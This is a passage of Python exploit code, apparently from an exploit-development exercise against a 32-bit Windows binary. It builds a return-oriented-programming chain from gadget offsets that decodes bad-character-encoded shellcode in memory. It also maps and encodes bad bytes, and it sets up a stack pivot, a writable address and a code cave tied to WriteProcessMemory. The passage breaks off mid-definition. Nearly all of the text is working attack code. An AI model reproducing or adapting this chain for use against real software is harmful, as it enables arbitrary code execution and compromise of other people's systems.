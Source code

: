 ```python
		# get the offset from last bad char to this one - so we only iterate over bad chars and not over every single byte
		if i == 0:
			  offset = bad_indices[i]
		else:
			  offset = bad_indices[i] - bad_indices[i-1]
		neg_offset = (-offset) & 0xffffffff

		# get offset to next bad char into ecx
		rop += p32(0x0102e + binary_base)   # pop ecx; ret;
		rop += p32(neg_offset)

		# adjust eax by this offset to point to next bad char
		rop += p32(0x3ec4c + binary_base)   # sub eax, ecx; pop ebp; ret;
		rop += p32(0x41414141)
		rop += p32(0x102e + binary_base)    # pop ecx; ret;
		rop += p32(value)
		rop += p32(0x7f17a + binary_base)   # add byte ptr [eax], cl; add cl, cl; ret;
		print(f"({i}: {len(rop)})")
	return rop

# since this is writeprocessmemory, we will have to encode the shellcode & decode it via rop
def map_bad_chars(sc):
	badchars = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x20\x2F\x5C"
	i = 0
	indices = []
	while i < len(sc):
		for c in badchars:
			if sc[i] == c:
				indices.append(i)
		i+=1
	return indices
bad_indices = map_bad_chars(sc)

def encode_shellcode(sc):
	badchars =     [ 0x0, 0x1 ,0x2 ,0x3 ,0x4 ,0x5 ,0x6, 0x7, 0x8, 0x9, 0xa, 0xb, 0xc, 0xd, 0x20, 0x2F, 0x5C]   
	replacements = []
	encoding_offset = -0x55
	for c in badchars:
		new = c + encoding_offset
		if new < 0:
			  new += 256
		replacements.append(new)

	print(f"Badchars: {badchars}")
	print(f"Replacments: {replacements}")
	badchars = bytes(badchars)
	replacements = bytes(replacements)

	input("Paused")
	transTable = sc.maketrans(badchars, replacements)
	sc = sc.translate(transTable)
	return sc

sc = encode_shellcode(sc)
print(f"Amount of bad chars in sc: {len(bad_indices)}")

pivot = p32(binary_base + 0x11396)  # add esp,0xD60  
writeable = 0xa635a + binary_base
codecave =  0x1010 + binary_base

skeleton = [
```